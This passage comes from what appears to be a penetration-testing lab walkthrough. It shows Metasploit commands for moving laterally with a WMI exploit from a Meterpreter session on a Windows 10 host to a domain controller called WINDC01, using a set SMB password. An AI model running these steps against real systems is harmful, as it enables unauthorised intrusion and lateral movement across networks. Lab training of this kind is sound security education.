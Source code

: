 	- `set SMBPass Winter2021`
	
	And run the payload:
	
	- `run -j`

	 ![A screenshot depicts the module settings.](Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.

	- `run`
	
	- `sysinfo`

	 ![A screenshot depicts the successful run and info of the system.](Images/wmiexploit.PNG)		
	
We successfully launched the WMI exploit from our Meterpreter session on Windows 10 to WINDC01. From a network traffic perspective, the exploit content occurred between Windows 10 and WINDC01, instead of Kali to WINDC01.

### 06. Credential Access 
